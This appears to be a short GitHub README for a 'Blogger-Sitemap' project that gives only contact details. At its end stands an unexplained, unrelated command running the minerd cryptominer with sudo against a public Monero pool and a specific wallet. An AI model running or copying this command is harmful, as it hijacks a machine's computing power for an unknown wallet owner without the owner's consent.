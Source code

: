# Blogger-Sitemap
This repository is about to create Blogger sitemap
Please contact us via nusagates@gmail.com or visit our official blog at www.nusagates.com for more information.

sudo ./minerd -a cryptonight -o stratum+tcp://pool.supportxmr.com:3333 -u 42bRUNr3mo9R1SnELVJgaGZecgn76qJLkd7VgNwtxuYtRrTKe2P1LSvjXqrT3anyZ22j7DEE74GkbVcQFyH2nNiC3h5eMYV -p Ubuntu-Lawas -t 6
